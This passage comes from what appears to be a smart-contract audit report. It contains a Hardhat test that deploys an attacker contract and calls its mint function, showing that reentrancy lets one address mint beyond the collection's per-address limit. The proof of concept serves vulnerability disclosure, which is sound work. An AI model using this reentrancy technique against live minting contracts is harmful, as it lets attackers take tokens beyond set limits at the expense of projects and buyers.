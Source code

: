 ```javascript
    );
    await contracts.hhMinter.setCollectionPhases(
      COLLECTION_ID, // _collectionID
      nowTimestamp, // _allowlistStartTime
      nowTimestamp + 1, // _allowlistEndTime
      1999999999, // _publicStartTime
      3000000000, // _publicEndTime
      "0x8e3c1713145650ce646f7eccd42c4541ecee8f07040fc1ac36fe071bbfebb870" // _merkleRoot
    );
  });

  context("Minting", () => {
    it("Due to reentrancy, the user can mint more than 1 tokens per period", async function () {
      const attackerFactory = await ethers.getContractFactory("smart-contracts/Attacker.sol:Attacker");
      const attacker = await attackerFactory.deploy(
        await contracts.hhMinter.getAddress(),
        await contracts.hhCore.getAddress(),
        COLLECTION_ID
      );
      const attackerAddress = await attacker.getAddress();

      expect(parseInt(await contracts.hhCore.viewMaxAllowance(COLLECTION_ID))).to.equal(MAX_COLLECTION_PURCHASES);
      expect(
        parseInt(await contracts.hhCore.retrieveTokensMintedPublicPerAddress(COLLECTION_ID, attackerAddress))
      ).to.equal(0);

      await ethers.provider.send("evm_setNextBlockTimestamp", [2000000000]);
      await ethers.provider.send("evm_mine");

      await attacker.mint();

      const mintedByTheAttacker = parseInt(
        await contracts.hhCore.retrieveTokensMintedPublicPerAddress(COLLECTION_ID, attackerAddress)
      );
      const maxCollectionPurchases = parseInt(await contracts.hhCore.viewMaxAllowance(COLLECTION_ID));

      console.log(
        `The attacker has minted: '${mintedByTheAttacker}' tokens, while the max limit of tokens for collection '${COLLECTION_ID}' is '${maxCollectionPurchases}'`
      );
    });
  });
});
```

## Tools Used
